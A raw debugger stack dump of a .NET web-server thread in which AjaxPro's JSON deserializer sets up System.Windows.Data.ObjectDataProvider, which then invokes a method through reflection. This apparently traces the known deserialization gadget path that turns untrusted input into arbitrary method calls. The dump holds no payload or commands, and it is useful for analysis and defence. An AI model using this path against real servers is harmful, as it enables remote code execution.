12eed0ac 72669c5a (MethodDesc 72330be0 +0xca System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(System.Object, System.Object[], System.Object[])), calling clr!RuntimeMethodHandle::InvokeMethod
12eed0b8 7259c4c1 (MethodDesc 72323b28 +0x21 System.RuntimeMethodHandle.PerformSecurityCheck(System.Object, System.IRuntimeMethodInfo, System.RuntimeType, UInt32)), calling clr!ReflectionInvocation::PerformSecurityCheck
12eed0d0 7266976e (MethodDesc 72330bcc +0x8e System.Reflection.RuntimeMethodInfo.Invoke(System.Object, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object[], System.Globalization.CultureInfo)), calling (MethodDesc 72330be0 +0 System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(System.Object, System.Object[], System.Object[]))
12eed0fc 7262ed38 (MethodDesc 723296c0 +0xac8 System.RuntimeType.InvokeMember(System.String, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object, System.Object[], System.Reflection.ParameterModifier[], System.Globalization.CultureInfo, System.String[]))
12eed250 09e79e6a (MethodDesc 09daf980 +0x82 System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(System.Exception ByRef))
12eed290 743037d0 clr!TypeHandle::GetSignatureCorElementType+0x13, calling clr!MethodTable::GetSignatureCorElementType
12eed2a4 09e77e55 (MethodDesc 09daf968 +0xf5 System.Windows.Data.ObjectDataProvider.QueryWorker(System.Object)), calling (MethodDesc 09daf980 +0 System.Windows.Data.ObjectDataProvider.InvokeMethodOnInstance(System.Exception ByRef))
12eed2c8 09e74c08 (MethodDesc 09daf93c +0xc8 System.Windows.Data.ObjectDataProvider.BeginQuery()), calling (MethodDesc 09daf968 +0 System.Windows.Data.ObjectDataProvider.QueryWorker(System.Object))
12eed2d8 09e79c43 (MethodDesc 09daf8c4 +0x9b System.Windows.Data.ObjectDataProvider.set_ObjectInstance(System.Object))
12eed2e8 74302546 clr!CallDescrWorkerInternal+0x34
12eed2f4 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eed308 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eed348 7431171f clr!CallDescrWorkerReflectionWrapper+0x55, calling clr!CallDescrWorkerWithHandler
12eed388 7431161f clr!RuntimeMethodHandle::InvokeMethod+0x747, calling clr!CallDescrWorkerReflectionWrapper
12eed3a4 743113bb clr!RuntimeMethodHandle::InvokeMethod+0x224, calling clr!_alloca_probe_16
12eed404 743112ce clr!RuntimeMethodHandle::InvokeMethod+0x6e, calling clr!LazyMachStateCaptureState
12eed428 7431eb4e clr!StgBlobPoolReadOnly::GetBlob+0x71, calling clr!MetaData::DataBlob::PeekCompressedU
12eed44c 7431efb5 clr!SigPointer::GetTypeHandleThrowing+0xb69, calling clr!__security_check_cookie
12eed478 7430fe88 clr!MetaSig::Init+0x16c, calling clr!CorSigUncompressData
12eed480 7430febe clr!MetaSig::Init+0x19e, calling clr!SigParser::SkipExactlyOne
12eed4c4 743201bb clr!InvokeUtil::IsDangerousMethod+0x10c, calling clr!MethodTable::ParentEquals
12eed528 7432452c clr!Security::IsTypeCritical+0x37, calling clr!EEClass::IsCritical
12eed580 725a5e1d (MethodDesc 7242cd2c +0x5d System.RuntimeType.CheckValue(System.Object, System.Reflection.Binder, System.Globalization.CultureInfo, System.Reflection.BindingFlags)), calling clr!RuntimeTypeHandle::IsValueType
12eed5fc 72669bf1 (MethodDesc 72330be0 +0x61 System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(System.Object, System.Object[], System.Object[])), calling clr!RuntimeMethodHandle::InvokeMethod
12eed620 7266976e (MethodDesc 72330bcc +0x8e System.Reflection.RuntimeMethodInfo.Invoke(System.Object, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object[], System.Globalization.CultureInfo)), calling (MethodDesc 72330be0 +0 System.Reflection.RuntimeMethodInfo.UnsafeInvokeInternal(System.Object, System.Object[], System.Object[]))
12eed64c 7264f745 (MethodDesc 72333960 +0x65 System.Reflection.RuntimePropertyInfo.SetValue(System.Object, System.Object, System.Reflection.BindingFlags, System.Reflection.Binder, System.Object[], System.Globalization.CultureInfo))
12eed674 7264f6d8 (MethodDesc 72333958 +0x18 System.Reflection.RuntimePropertyInfo.SetValue(System.Object, System.Object, System.Object[]))
12eed690 0971c9a9 (MethodDesc 12efc328 +0x311 AjaxPro.JavaScriptDeserializer.DeserializeCustomObject(AjaxPro.JavaScriptObject, System.Type))
12eed6dc 72588cc7 (MethodDesc 7242cb68 +0x37 System.RuntimeType.IsAssignableFrom(System.Type)), calling clr!RuntimeTypeHandle::CanCastTo
12eed6f0 0971c426 (MethodDesc 12efc31c +0x2e6 AjaxPro.JavaScriptDeserializer.Deserialize(AjaxPro.IJavaScriptObject, System.Type)), calling (MethodDesc 12efc328 +0 AjaxPro.JavaScriptDeserializer.DeserializeCustomObject(AjaxPro.JavaScriptObject, System.Type))
12eed748 0971af98 (MethodDesc 12ef9740 +0x290 AjaxPro.XmlHttpRequestProcessor.RetreiveParameters()), calling (MethodDesc 12efc31c +0 AjaxPro.JavaScriptDeserializer.Deserialize(AjaxPro.IJavaScriptObject, System.Type))
12eed76c 0971938f (MethodDesc 12efc184 +0x3b7 AjaxPro.AjaxProcHelper.Run())
12eed778 7447be07 clr!COMPlusCheckForAbort+0xfe, calling clr!EHWatsonBucketTracker::ClearWatsonBucketDetails
12eed934 09718f94 (MethodDesc 12ef9e3c +0x2c AjaxPro.AjaxSyncHttpHandler.ProcessRequest(System.Web.HttpContext)), calling (MethodDesc 12efc184 +0 AjaxPro.AjaxProcHelper.Run())
12eed948 113e263d (MethodDesc 0977a988 +0x305 System.Web.HttpApplication+CallHandlerExecutionStep.System.Web.HttpApplication.IExecutionStep.Execute()), calling 0469b966
12eed950 0f4953e7 (MethodDesc 097775c4 +0x1bf System.Web.HttpApplication+AsyncEventExecutionStep.System.Web.HttpApplication.IExecutionStep.Execute())
12eed984 0f4d8dce (MethodDesc 04bbdc5c +0x6e System.Web.HttpApplication.ExecuteStepImpl(IExecutionStep)), calling 0957164a
12eed998 0f4d8b6a (MethodDesc 04bbdc78 +0x4a System.Web.HttpApplication.ExecuteStep(IExecutionStep, Boolean ByRef)), calling (MethodDesc 04bbdc5c +0 System.Web.HttpApplication.ExecuteStepImpl(IExecutionStep))
12eed9d4 0f4d710f (MethodDesc 09772814 +0x1c7 System.Web.HttpApplication+ApplicationStepManager.ResumeSteps(System.Exception)), calling (MethodDesc 04bbdc78 +0 System.Web.HttpApplication.ExecuteStep(IExecutionStep, Boolean ByRef))
12eeda28 0f4d6e6c (MethodDesc 04bbdb3c +0xdc System.Web.HttpApplication.System.Web.IHttpAsyncHandler.BeginProcessRequest(System.Web.HttpContext, System.AsyncCallback, System.Object))
12eeda40 0692ab13 (MethodDesc 047a88cc +0x29b System.Web.HttpRuntime.ProcessRequestInternal(System.Web.HttpWorkerRequest)), calling 0469b4a2
12eeda4c 7266d0cf (MethodDesc 7231fe24 +0x6f System.DateTime.get_UtcNow()), calling (MethodDesc 7231fc70 +0 System.DateTime.TimeToTicks(Int32, Int32, Int32))
12eeda80 0692a06f (MethodDesc 047a8a28 +0x4f System.Web.HttpRuntime.ProcessRequestNoDemand(System.Web.HttpWorkerRequest)), calling (MethodDesc 047a88cc +0 System.Web.HttpRuntime.ProcessRequestInternal(System.Web.HttpWorkerRequest))
12eeda90 06929dd1 (MethodDesc 047a8a1c +0x31 System.Web.HttpRuntime.ProcessRequest(System.Web.HttpWorkerRequest)), calling (MethodDesc 047a8a28 +0 System.Web.HttpRuntime.ProcessRequestNoDemand(System.Web.HttpWorkerRequest))
12eedaa4 069296b7 (MethodDesc 063fe0d8 +0x37 Mono.WebServer.MonoWorkerRequest.ProcessRequest()), calling (MethodDesc 047a8a1c +0 System.Web.HttpRuntime.ProcessRequest(System.Web.HttpWorkerRequest))
12eedaec 069294f6 (MethodDesc 063fd2ac +0x5e Mono.WebServer.BaseApplicationHost.ProcessRequest(Mono.WebServer.MonoWorkerRequest)), calling (MethodDesc 063fe0d8 +0 Mono.WebServer.MonoWorkerRequest.ProcessRequest())
12eedb1c 069237bd (MethodDesc 063fd3c0 +0x10d Mono.WebServer.FastCgi.ApplicationHost.ProcessRequest(Mono.WebServer.FastCgi.Responder)), calling 06923150
12eedb68 74302546 clr!CallDescrWorkerInternal+0x34
12eedb74 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eedb88 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eedbc8 7471fbe4 clr!CallDescrWithObjectArray+0x4d0, calling clr!CallDescrWorkerWithHandler
12eedc00 7471f8b3 clr!CallDescrWithObjectArray+0xd7, calling clr!_alloca_probe_16
12eedcc8 7471f59a clr!CStackBuilderSink::PrivateProcessMessage+0x1b4, calling clr!CallDescrWithObjectArray
12eedd38 7441d69e clr!PEImage::Equals+0xd6, calling clr!_EH_epilog3
12eedd88 7471f4b5 clr!CStackBuilderSink::PrivateProcessMessage+0x75, calling clr!LazyMachStateCaptureState
12eedd94 7441da51 clr!PEFile::Equals+0xbd, calling clr!PEImage::Equals
12eeddbc 743b8189 clr!CRealProxy::ProxyTypeIdentityCheck+0x75, calling clr!PEFile::Equals
12eedde8 743b6533 clr!CRealProxy::UpdateOptFlags+0xd3, calling ucrtbase_clr0400!strcmp
12eeddf0 743b645a clr!CRealProxy::UpdateOptFlags+0x108, calling clr!CRealProxy::ProxyTypeIdentityCheck
12eede38 743b6424 clr!CRemotingServices::CheckCast+0x70, calling clr!CRealProxy::UpdateOptFlags
12eede64 743b4d91 clr!ObjIsInstanceOf+0x5e, calling clr!CRemotingServices::CheckCast
12eedeac 7472b612 clr!IsInstanceOfTypeHelper+0x87, calling clr!ObjIsInstanceOf
12eedeb0 7472b5d1 clr!IsInstanceOfTypeHelper+0x46, calling clr!_EH_epilog3
12eedee8 74302546 clr!CallDescrWorkerInternal+0x34
12eedef8 7430e4da clr!CallDescrWorkerWithHandler+0x9b, calling clr!CallDescrWorkerWithHandler+0x7e
12eedf10 7472b5c6 clr!IsInstanceOfTypeHelper+0x3b, calling clr!LazyMachStateCaptureState
12eedf44 7472b5d1 clr!IsInstanceOfTypeHelper+0x46, calling clr!_EH_epilog3
12eedf48 7472b697 clr!RuntimeTypeHandle::IsInstanceOfType+0x49, calling clr!IsInstanceOfTypeHelper
12eedf58 725a5d0b (MethodDesc 7242cb50 +0xb System.RuntimeType.IsInstanceOfType(System.Object)), calling clr!RuntimeTypeHandle::IsInstanceOfType
12eedf5c 72634a9b (MethodDesc 723f9790 +0x4f System.Runtime.Remoting.Messaging.Message.CoerceArg(System.Object, System.Type))
12eedfa4 7430cb49 clr!JIT_Stelem_Ref+0x25, calling clr!JIT_WriteBarrierEAX
12eedfa8 72634a17 (MethodDesc 723f9784 +0x7f System.Runtime.Remoting.Messaging.Message.CoerceArgs(System.Reflection.MethodBase, System.Object[], System.Reflection.ParameterInfo[])), calling clr!JIT_Stelem_Ref
12eedfb0 7263478c (MethodDesc 723fa290 +0xb8 System.Runtime.Remoting.Messaging.StackBuilderSink.VerifyIsOkToCallMethod(System.Object, System.Runtime.Remoting.Messaging.IMethodMessage))
12eedfcc 726347c4 (MethodDesc 723fa284 +0x2c System.Runtime.Remoting.Messaging.StackBuilderSink.GetMethodBase(System.Runtime.Remoting.Messaging.IMethodMessage)), calling (MethodDesc 72321e0c +0 System.Reflection.MethodBase.op_Equality(System.Reflection.MethodBase, System.Reflection.MethodBase))
12eedfec 726344a4 (MethodDesc 7230cc10 +0x1f4 System.Runtime.Remoting.Messaging.StackBuilderSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage)), calling clr!CStackBuilderSink::PrivateProcessMessage
12eee04c 7263429f (MethodDesc 723fa230 +0x67 System.Runtime.Remoting.Messaging.ServerObjectTerminatorSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage))
12eee060 726341c7 (MethodDesc 723f9e80 +0x8b System.Runtime.Remoting.Messaging.ServerContextTerminatorSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage)), calling 0168c28a
12eee090 72633f2c (MethodDesc 721cef2c +0x98 System.Runtime.Remoting.Channels.CrossContextChannel.SyncProcessMessageCallback(System.Object[])), calling 01687706
12eee0cc 72662505 (MethodDesc 72328110 +0xd System.Threading.Thread.CompleteCrossContextCallback(System.Threading.InternalCrossContextDelegate, System.Object[]))
12eee0d0 74302546 clr!CallDescrWorkerInternal+0x34
12eee0dc 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eee0f0 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eee130 74322440 clr!DispatchCallDebuggerWrapper+0x59, calling clr!CallDescrWorkerWithHandler
12eee174 74322695 clr!DispatchCallSimple+0x8e, calling clr!DispatchCallDebuggerWrapper
12eee1c0 743b6e26 clr!ThreadNative::InternalCrossContextCallback+0x1db, calling clr!DispatchCallSimple
12eee228 743b6cd4 clr!ThreadNative::InternalCrossContextCallback+0x64, calling clr!LazyMachStateCaptureState
12eee274 72599072 (MethodDesc 7242cabc +0x11a System.RuntimeType.GetMethodImpl(System.String, System.Reflection.BindingFlags, System.Reflection.Binder, System.Reflection.CallingConventions, System.Type[], System.Reflection.ParameterModifier[]))
12eee2d0 72633461 (MethodDesc 721cef08 +0xd1 System.Runtime.Remoting.Messaging.MethodCall.ResolveMethod(Boolean)), calling (MethodDesc 723290bc +0 System.Type.GetMethod(System.String, System.Reflection.BindingFlags, System.Reflection.Binder, System.Reflection.CallingConventions, System.Type[], System.Reflection.ParameterModifier[]))
12eee2f8 72633de1 (MethodDesc 723f9df0 +0xa1 System.Runtime.Remoting.Channels.CrossContextChannel.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage)), calling clr!ThreadNative::InternalCrossContextCallback
12eee338 7264afcb (MethodDesc 7230cf48 +0x93 System.Runtime.Remoting.Channels.ChannelServices.SyncDispatchMessage(System.Runtime.Remoting.Messaging.IMessage)), calling 016876f2
12eee364 7258fc41 (MethodDesc 7232d9c4 +0x11 System.Collections.Hashtable.set_Item(System.Object, System.Object)), calling (MethodDesc 7232da44 +0 System.Collections.Hashtable.Insert(System.Object, System.Object, Boolean))
12eee374 72633044 (MethodDesc 721ceed0 +0xf4 System.Runtime.Remoting.Channels.CrossAppDomainSink.DoDispatch(Byte[], System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage, System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage ByRef)), calling (MethodDesc 7230cf48 +0 System.Runtime.Remoting.Channels.ChannelServices.SyncDispatchMessage(System.Runtime.Remoting.Messaging.IMessage))
12eee38c 72637870 (MethodDesc 7230cc40 +0x84 System.Runtime.Remoting.Channels.CrossAppDomainSink.DoTransitionDispatchCallback(System.Object[])), calling (MethodDesc 721ceed0 +0 System.Runtime.Remoting.Channels.CrossAppDomainSink.DoDispatch(Byte[], System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage, System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage ByRef))
12eee3c4 72662505 (MethodDesc 72328110 +0xd System.Threading.Thread.CompleteCrossContextCallback(System.Threading.InternalCrossContextDelegate, System.Object[]))
12eee3c8 74302546 clr!CallDescrWorkerInternal+0x34
12eee3d4 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eee3e8 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eee410 7445dc15 clr!Thread::SafeSetLastThrownObject+0x58, calling clr!Thread::SetLastThrownObject
12eee428 74322440 clr!DispatchCallDebuggerWrapper+0x59, calling clr!CallDescrWorkerWithHandler
12eee448 7432e6e3 clr!SystemDomain::GetAppDomainAtId+0x68, calling clr!AppDomain::CanThreadEnter
12eee46c 74322695 clr!DispatchCallSimple+0x8e, calling clr!DispatchCallDebuggerWrapper
12eee4b8 743b6e26 clr!ThreadNative::InternalCrossContextCallback+0x1db, calling clr!DispatchCallSimple
12eee520 743b6cd4 clr!ThreadNative::InternalCrossContextCallback+0x64, calling clr!LazyMachStateCaptureState
12eee560 725c0486 (MethodDesc 72339858 +0x16 System.IO.BinaryWriter.Write(Byte))
12eee564 725c0164 (MethodDesc 72339840 +0x10 System.IO.BinaryWriter.Flush())
12eee574 725be4df (MethodDesc 723154f4 +0x217 System.Runtime.Serialization.Formatters.Binary.ObjectWriter.Serialize(System.Object, System.Runtime.Remoting.Messaging.Header[], System.Runtime.Serialization.Formatters.Binary.__BinaryWriter, Boolean)), calling (MethodDesc 7241f678 +0 System.Runtime.Serialization.SerializationObjectManager.RaiseOnSerializedEvent())
12eee5ac 725be132 (MethodDesc 7233756c +0x96 System.Runtime.Serialization.Formatters.Binary.BinaryFormatter.Serialize(System.IO.Stream, System.Object, System.Runtime.Remoting.Messaging.Header[], Boolean)), calling clr!JIT_WriteBarrierEAX
12eee5c8 72632d44 (MethodDesc 723f9c18 +0x88 System.Runtime.Remoting.Channels.CrossAppDomainSerializer.SerializeMessageParts(System.Collections.ArrayList))
12eee5f0 72632ed6 (MethodDesc 723fa408 +0x7a System.Runtime.Remoting.Channels.CrossAppDomainSink.DoTransitionDispatch(Byte[], System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage, System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage ByRef)), calling clr!ThreadNative::InternalCrossContextCallback
12eee614 72632546 (MethodDesc 723fa414 +0x9a System.Runtime.Remoting.Channels.CrossAppDomainSink.SyncProcessMessage(System.Runtime.Remoting.Messaging.IMessage)), calling (MethodDesc 723fa408 +0 System.Runtime.Remoting.Channels.CrossAppDomainSink.DoTransitionDispatch(Byte[], System.Runtime.Remoting.Messaging.SmuggledMethodCallMessage, System.Runtime.Remoting.Messaging.SmuggledMethodReturnMessage ByRef))
12eee660 7263233d (MethodDesc 723fa468 +0x51 System.Runtime.Remoting.Proxies.RemotingProxy.CallProcessMessage(System.Runtime.Remoting.Messaging.IMessageSink, System.Runtime.Remoting.Messaging.IMessage, System.Runtime.Remoting.Contexts.ArrayWithSize, System.Threading.Thread, System.Runtime.Remoting.Contexts.Context, Boolean)), calling 0168763e
12eee674 7263224e (MethodDesc 723fa47c +0x1de System.Runtime.Remoting.Proxies.RemotingProxy.InternalInvoke(System.Runtime.Remoting.Messaging.IMethodCallMessage, Boolean, Int32)), calling (MethodDesc 723fa468 +0 System.Runtime.Remoting.Proxies.RemotingProxy.CallProcessMessage(System.Runtime.Remoting.Messaging.IMessageSink, System.Runtime.Remoting.Messaging.IMessage, System.Runtime.Remoting.Contexts.ArrayWithSize, System.Threading.Thread, System.Runtime.Remoting.Contexts.Context, Boolean))
12eee6d0 72632069 (MethodDesc 723fa474 +0x69 System.Runtime.Remoting.Proxies.RemotingProxy.Invoke(System.Runtime.Remoting.Messaging.IMessage))
12eee6ec 72631e94 (MethodDesc 72310284 +0xf4 System.Runtime.Remoting.Proxies.RealProxy.PrivateInvoke(System.Runtime.Remoting.Proxies.MessageData ByRef, Int32))
12eee720 74302658 clr!CTPMethodTable__CallTargetHelper3+0xf
12eee72c 743b2cf8 clr!CallTargetWorker2+0xaa, calling clr!CTPMethodTable__CallTargetHelper3
12eee74c 743b2cae clr!CallTargetWorker2+0x5b, calling clr!_alloca_probe
12eee78c 745ff97d clr!TransparentProxyStubWorker+0x238, calling clr!CallTargetWorker2
12eee83c 76c88244 KERNEL32!QuirkIsEnabled3Worker+0x74, calling KERNEL32!__security_check_cookie
12eee8b0 74302a46 clr!TransparentProxyStub_CrossContext+0x14, calling clr!TransparentProxyStubWorker
12eee8e0 03dd3a2a (MethodDesc 01876968 +0x162 Mono.WebServer.FastCgi.Responder.Process()), calling 03dd033c
12eee968 03dd3753 (MethodDesc 01879a68 +0x4b Mono.FastCgi.ResponderRequest.Worker(System.Object)), calling 01207a9e
12eee9d8 726509a4 (MethodDesc 72309e6c +0x44 System.Threading.QueueUserWorkItemCallback.WaitCallback_Context(System.Object))
12eee9e0 725a7e34 (MethodDesc 721ccddc +0xc4 System.Threading.ExecutionContext.RunInternal(System.Threading.ExecutionContext, System.Threading.ContextCallback, System.Object, Boolean))
12eeea44 725a7d67 (MethodDesc 72321734 +0x17 System.Threading.ExecutionContext.Run(System.Threading.ExecutionContext, System.Threading.ContextCallback, System.Object, Boolean)), calling (MethodDesc 721ccddc +0 System.Threading.ExecutionContext.RunInternal(System.Threading.ExecutionContext, System.Threading.ContextCallback, System.Object, Boolean))
12eeea58 726509f5 (MethodDesc 72309e64 +0x45 System.Threading.QueueUserWorkItemCallback.System.Threading.IThreadPoolWorkItem.ExecuteWorkItem()), calling (MethodDesc 72321734 +0 System.Threading.ExecutionContext.Run(System.Threading.ExecutionContext, System.Threading.ContextCallback, System.Object, Boolean))
12eeea74 72641abd (MethodDesc 7231286c +0x19d System.Threading.ThreadPoolWorkQueue.Dispatch()), calling 01687936
12eeeac4 7264191b (MethodDesc 72312888 +0xb System.Threading._ThreadPoolWaitCallback.PerformWaitCallback()), calling (MethodDesc 7231286c +0 System.Threading.ThreadPoolWorkQueue.Dispatch())
12eeeac8 74302546 clr!CallDescrWorkerInternal+0x34
12eeead4 7430e4c9 clr!CallDescrWorkerWithHandler+0x6b, calling clr!CallDescrWorkerInternal
12eeeae8 7430e482 clr!CallDescrWorkerWithHandler+0x20, calling clr!_alloca_probe
12eeeb28 7430f197 clr!MethodDescCallSite::CallTargetWorker+0x170, calling clr!CallDescrWorkerWithHandler
12eeeb34 7430ff64 clr!ArgIteratorTemplate<ArgIteratorBase>::ComputeReturnFlags+0x1b, calling clr!MetaSig::GetReturnTypeNormalized
12eeeb50 7430f129 clr!MethodDescCallSite::CallTargetWorker+0x87, calling clr!_alloca_probe_16
12eeeb80 74310fc0 clr!MethodDescCallSite::MethodDescCallSite+0x50, calling clr!ArgIteratorTemplate<ArgIteratorBase>::ForceSigWalk
12eeeb9c 74462fd3 clr!QueueUserWorkItemManagedCallback+0x23, calling clr!MethodDescCallSite::CallTargetWorker
12eeec1c 74313b24 clr!ManagedThreadBase_DispatchInner+0x71
12eeec34 74313b9b clr!ManagedThreadBase_DispatchMiddle+0x8f, calling clr!ManagedThreadBase_DispatchInner
12eeec5c 748427cc clr!DebuggerController::EnableTraceCall+0x6b, calling clr!_EH_epilog3
12eeec88 748369dd clr!Debugger::ThreadCreated+0x7c, calling clr!DebuggerController::EnableTraceCall
12eeec8c 748369e2 clr!Debugger::ThreadCreated+0x81, calling clr!_EH_epilog3
12eeecbc 74313c4b clr!ManagedThreadBase_DispatchOuter+0x6d, calling clr!ManagedThreadBase_DispatchMiddle
12eeed00 75c21c35 KERNELBASE!WaitForSingleObjectEx+0xa5, calling KERNELBASE!WaitForSingleObjectEx+0xd6
12eeed18 74313cc7 clr!ManagedThreadBase_FullTransitionWithAD+0x2f, calling clr!ManagedThreadBase_DispatchOuter
12eeed3c 74462f5d clr!ManagedPerAppDomainTPCount::DispatchWorkItem+0xfe, calling clr!ManagedThreadBase_FullTransitionWithAD
12eeed64 74462170 clr!CLRSemaphore::Wait+0xda, calling KERNELBASE!WaitForSingleObjectEx
12eeed70 744621aa clr!CLRSemaphore::Wait+0x179, calling clr!_EH_epilog3
12eeeda8 743054f5 clr!EESleepEx+0x52, calling KERNELBASE!SleepEx
12eeedc8 74462b71 clr!ThreadpoolMgr::UnfairSemaphore::Wait+0x167, calling clr!ThreadpoolMgr::UnfairSemaphore::UpdateCounts
12eeedd0 74461c98 clr!PerAppDomainTPCountList::GetAppDomainIndexForThreadpoolDispatch+0x54
12eeede8 74461d9c clr!ThreadpoolMgr::ExecuteWorkRequest+0x4e
12eeee08 74461eb7 clr!ThreadpoolMgr::WorkerThreadStart+0x393, calling clr!ThreadpoolMgr::ExecuteWorkRequest
12eeee74 7432eb34 clr!Thread::intermediateThreadProc+0x58
12eeee84 77d1847e ntdll!RtlDosApplyFileIsolationRedirection_Ustr+0x32e, calling ntdll!memset
12eeee9c 77d184f0 ntdll!RtlDosApplyFileIsolationRedirection_Ustr+0x3a0, calling ntdll!__security_check_cookie
12eeef34 77d1baaf ntdll!RtlEqualUnicodeString+0x6f, calling ntdll!NLS_UPCASE
12eeef50 77d1bd4f ntdll!LdrpFindLoadedDllByNameLockHeld+0xaf, calling ntdll!RtlEqualUnicodeString
12eeef94 77d1bb95 ntdll!LdrpFindLoadedDllByName+0xb5, calling ntdll!RtlReleaseSRWLockExclusive
12eeef98 77d1bc1e ntdll!LdrpFindLoadedDllByName+0x13e, calling ntdll!RtlGetCurrentServiceSessionId
12eeef9c 77d19738 ntdll!LdrpRecordModuleDependency+0x17, calling ntdll!LdrpDependencyExist
12eeefb4 77d17b5f ntdll!LdrpBuildForwarderLink+0x4a, calling ntdll!RtlReleaseSRWLockExclusive
12eeefc4 77d5c822 ntdll!LdrpLogInternal+0x19, calling ntdll!RtlGetCurrentServiceSessionId
12eeefd8 77d5b78d ntdll!LdrpLoadDllInternal+0x96, calling ntdll!LdrpLogInternal
12eeefe4 77d16e7c ntdll!RtlDeactivateActivationContextUnsafeFast+0x9c, calling ntdll!__security_check_cookie
12eef03c 77d170ae ntdll!LdrpLoadForwardedDll+0x11d, calling ntdll!LdrpLoadDllInternal
12eef054 77d17120 ntdll!LdrpLoadForwardedDll+0x18f, calling ntdll!RtlDeactivateActivationContextUnsafeFast
12eef058 77d170ba ntdll!LdrpLoadForwardedDll+0x129, calling ntdll!LdrpLoadForwardedDll+0x184
12eef088 77d1704a ntdll!LdrpLoadForwardedDll+0xb9, calling ntdll!RtlActivateActivationContextUnsafeFast
12eef08c 77d17120 ntdll!LdrpLoadForwardedDll+0x18f, calling ntdll!RtlDeactivateActivationContextUnsafeFast
12eef26c 77d21e50 ntdll!RtlpImageDirectoryEntryToDataEx+0x40, calling ntdll!RtlImageNtHeaderEx
12eef284 77d4674c ntdll!NtDeviceIoControlFile+0xc
12eef288 75c1ebce KERNELBASE!ConsoleCallServerGeneric+0xe5, calling ntdll!NtDeviceIoControlFile
12eef2bc 75c1ebdf KERNELBASE!ConsoleCallServerGeneric+0xf6, calling KERNELBASE!__security_check_cookie
12eef2c0 77d22fd4 ntdll!RtlGuardCheckImageBase+0x12, calling ntdll!LdrControlFlowGuardEnforced
12eef2f8 75c0e787 KERNELBASE!NlsValidateLocale+0x1c7, calling KERNELBASE!__security_check_cookie
12eef340 75c1f2df KERNELBASE!RegKrnInitialize+0x34, calling KERNELBASE!__security_check_cookie
12eef374 77d876ec ntdll!LdrpFindLoadedDllByAddress+0xa7, calling ntdll!RtlReleaseSRWLockExclusive
12eef380 77d153f8 ntdll!LdrGetProcedureAddressForCaller+0x408, calling ntdll!LdrpResolveProcedureAddress
12eef390 77d15499 ntdll!LdrGetProcedureAddressForCaller+0x4a9, calling ntdll!LdrpDereferenceModule
12eef39c 77d15596 ntdll!LdrGetProcedureAddressForCaller+0x5a6, calling ntdll!__security_check_cookie
12eef3a8 75c1eade KERNELBASE!ConsoleCallServer+0x26, calling KERNELBASE!ConsoleCallServerGeneric
12eef3c0 75c9a101 KERNELBASE!SetThreadLocale+0x11, calling KERNELBASE!NlsValidateLocale
12eef3d4 75c7f8e5 KERNELBASE!SetTEBLangID+0x60ebe, calling KERNELBASE!SetThreadLocale
12eef400 75c1f291 KERNELBASE!_KernelBaseBaseDllInitialize+0x4ce, calling KERNELBASE!RegKrnInitialize
12eef40c 75c1f2a1 KERNELBASE!_KernelBaseBaseDllInitialize+0x4de, calling KERNELBASE!__security_check_cookie
12eef468 77d1c3e3 ntdll!RtlpAllocateHeapInternal+0x443, calling ntdll!RtlpLfhFindClearBitAndSet
12eef524 5af04614 DnrspSDK32!__crt_unique_heap_ptr<__acrt_ptd,__crt_internal_free_policy>::operator bool+0x134, calling DnrspSDK32!__acrt_unlock
12eef544 5ae65898 DnrspSDK32!DllMain+0x28, calling DnrspSDK32!__CheckForDebuggerJustMyCode
12eef614 64734693 appresolver!__scrt_dllmain_crt_thread_attach+0x11, calling appresolver!Microsoft::WRL::Wrappers::HandleT<Microsoft::WRL::Wrappers::HandleTraits::ClientDCTraits>::InternalClose
12eef618 64733fed appresolver!dllmain_crt_dispatch+0x2d, calling appresolver!__scrt_dllmain_crt_thread_attach
12eef620 6473424e appresolver!dllmain_dispatch+0x70, calling appresolver!DllMain
12eef660 6473433e appresolver!_DllMainCRTStartup+0x1e, calling appresolver!dllmain_dispatch
12eef674 77d16e7c ntdll!RtlDeactivateActivationContextUnsafeFast+0x9c, calling ntdll!__security_check_cookie
12eef694 77d16f1e ntdll!LdrpCallInitRoutine+0x51, calling ntdll!LdrxCallInitRoutine
12eef6a0 77d16f4e ntdll!LdrpCallInitRoutine+0x81, calling ntdll!RtlGetCurrentServiceSessionId
12eef6a4 77d16f34 ntdll!LdrpCallInitRoutine+0x67, calling ntdll!LdrpCallInitRoutine+0x7c
12eef6d0 77d467bc ntdll!NtSetEvent+0xc
12eef6d4 77d3bc8c ntdll!LdrpDropLastInProgressCount+0x38, calling ntdll!NtSetEvent
12eef6e4 77d16d22 ntdll!LdrpInitializeThread+0x22a, calling ntdll!LdrpDropLastInProgressCount
12eef6e8 77d16cf6 ntdll!LdrpInitializeThread+0x1fe, calling ntdll!LdrpInitializeThread+0x21b
12eef73c 77d16c53 ntdll!LdrpInitializeThread+0x15b, calling ntdll!RtlActivateActivationContextUnsafeFast
12eef740 77d16c94 ntdll!LdrpInitializeThread+0x19c, calling ntdll!RtlDeactivateActivationContextUnsafeFast
12eef77c 77d483fc ntdll!NtTestAlert+0xc
